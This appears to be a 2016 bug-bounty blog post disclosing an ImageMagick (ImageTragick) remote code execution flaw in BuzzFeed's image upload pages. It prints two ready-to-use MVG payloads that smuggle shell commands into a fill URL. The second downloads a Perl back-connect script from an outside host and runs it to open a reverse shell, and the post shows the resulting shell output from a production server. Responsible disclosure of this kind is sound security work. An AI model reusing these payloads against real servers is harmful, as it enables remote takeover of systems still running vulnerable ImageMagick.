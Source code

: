 ```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected malicious by code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.98.54 port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: 199.231.211.123:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context

viewbox 0 0 640 480

fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337 ;touch "hello)'

pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.231.104 port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).


- 23 July 2016 : Report Bug to Buzzfeed
- 27 July 2016 : Buzzfeed respond and ask for details
- 27 July 2016 : Buzzfeed ask to continue disscussion via Hackerone
- 27 July 2016 : Noobsec submit bug in Hackerone
- 28 July 2016 : Buzzfeed confirmed bug has been fixed


Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
